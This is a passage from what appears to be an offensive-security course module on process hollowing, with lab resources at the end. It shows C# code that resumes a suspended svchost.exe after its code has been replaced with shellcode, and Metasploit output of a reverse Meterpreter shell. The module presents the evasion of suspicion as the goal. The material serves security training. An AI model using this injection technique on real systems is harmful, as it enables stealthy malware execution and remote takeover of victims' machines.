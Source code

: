 ```
DWORD ResumeThread(
  HANDLE hThread
);
```

> Listing 46 - ResumeThread function prototype

When _CreateProcessW_ started **svchost.exe** and populated the PROCESS_INFORMATION structure, it also copied the handle of the main thread into it. We can then import _ResumeThread_ and call it directly.

```
[DllImport("kernel32.dll", SetLastError = true)]
private static extern uint ResumeThread(IntPtr hThread);
...

ResumeThread(pi.hThread);
```

> Listing 47 - Importing and calling ResumeThread

We now have all the pieces to create a suspended process, hollow out its original code, replace it with our shellcode, and subsequently execute it.

Once we have combined all the code, we must remember to specify a 64-bit architecture (since **svchost.exe** is a 64-bit process) and change it from "debug" to "release" before compiling.

When we execute it, the compiled code results in a reverse Meterpreter shell executing inside a **svchost.exe** process, possibly evading suspicion since it is a trusted process that also engages in network communications. Excellent!

```
msf5 exploit(multi/handler) > exploit

[*] Started HTTPS reverse handler on https://192.168.119.120:443
[*] https://192.168.119.120:443 handling request from 192.168.120.11; (UUID: pm1qmw8u) Staging x64 payload (207449 bytes) ...
[*] Meterpreter session 1 opened (192.168.119.120:443 -> 192.168.120.11:49678)

meterpreter > 
```

> Listing 48 - Getting a reverse shell

While the code and technique here only writes shellcode into the suspended process, we could also use this technique to [hollow](https://github.com/m0n0ph1/Process-Hollowing) an entire compiled EXE.

## Resources

Some of the labs require you to start the target machine(s) below.

Please note that the IP addresses assigned to your target machines may not match those referenced in the Module text and video.

Process Injection - Client01 - VM #5

#### Labs
